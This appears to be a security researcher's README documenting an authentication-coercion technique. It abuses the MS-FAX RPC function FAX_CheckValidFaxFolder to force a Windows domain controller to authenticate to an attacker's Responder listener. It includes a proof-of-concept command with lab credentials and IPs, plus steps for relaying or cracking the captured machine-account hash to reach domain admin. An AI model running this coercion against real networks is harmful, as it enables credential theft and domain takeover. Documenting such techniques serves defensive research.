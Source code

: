 # MS-FAX - Remote call to FAX_CheckValidFaxFolder (opnum 86)

## Summary

+ **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

+ **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\SHAREDFAX`

+ **Function name**: [`FAX_CheckValidFaxFolder`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d348202c-d55b-40a9-b346-d6581278ce44)

+ **Function operation number**: `86`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FAX_CheckValidFaxFolder`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d348202c-d55b-40a9-b346-d6581278ce44) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FAX_CheckValidFaxFolder('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FAX_CheckValidFaxFolder(
   [in] handle_t hBinding,
   [in, string, ref] LPCWSTR lpcwstrPath
 );
```

## References

+ Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

+ Documentation of function `FAX_CheckValidFaxFolder`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d348202c-d55b-40a9-b346-d6581278ce44